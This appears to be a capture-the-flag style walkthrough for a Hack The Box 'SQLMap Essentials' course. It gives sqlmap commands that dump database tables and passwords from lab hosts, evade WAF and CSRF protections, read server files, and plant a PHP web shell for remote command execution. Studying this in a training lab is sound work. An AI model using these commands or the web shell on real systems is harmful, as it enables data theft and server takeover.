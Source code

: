 # [HTB] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```

```bash
sqlmap -r case4.txt -p id --dump
```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash
sqlmap 'http://94.237.62.6:47094/case5.php?id=1' --batch --dump -T flag5 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag6? (Case #6)**

```bash
sqlmap 'http://94.237.62.6:47094/case6.php?col=id' --prefix='`)' -p col --batch --dump -T flag6 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag7? (Case #7)**

```bash
sqlmap 'http://94.237.62.6:47094/case7.php?id=1' --batch --dump -T flag7 --no-cast --union-cols=5
```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb --tables
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb -T flag1 --dump
```

## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --search -C "style"
```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --dump -D testdb -T users -C name,password --no-cast
```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash
sqlmap -u "http://94.237.62.6:47094/case8.php" --data="id=1&t0ken=H9AemyR5JmWEZHQhjzVoyE3Q6gc9VMkaezSfg6qIEs" --csrf-token="t0ken" --batch --dump -T flag8
```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash
sqlmap -u "http://94.237.62.6:47094/case9.php?id=1&uid=1898023378" --randomize=uid --batch --dump -T flag9
```

>**Q. What's the contents of table flag10? (Case #10)**

```bash
sqlmap -u "http://94.237.62.6:47094/case10.php" --data="id=1" --batch --dump -T flag10 --random-agent
```

>**Q. What's the contents of table flag11? (Case #11)**

```bash
sqlmap -u "http://94.237.62.6:47094/case11.php?id=1" --skip-waf --batch --dump -T flag11 --tamper=between
```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-read "/var/www/html/flag.txt"
cat /home/marcos/.local/share/sqlmap/output/94.237.62.37/files/_var_www_html_flag.txt
```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash
sudo nano shell.php  
```

```php
echo '<?php system($_GET["cmd"]); ?>'
```

```bash
sudo chmod +x shell.php
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://94.237.62.37:45885/shell.php?cmd=cat+../../../flag.txt
```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs -D production -T final_flag
```
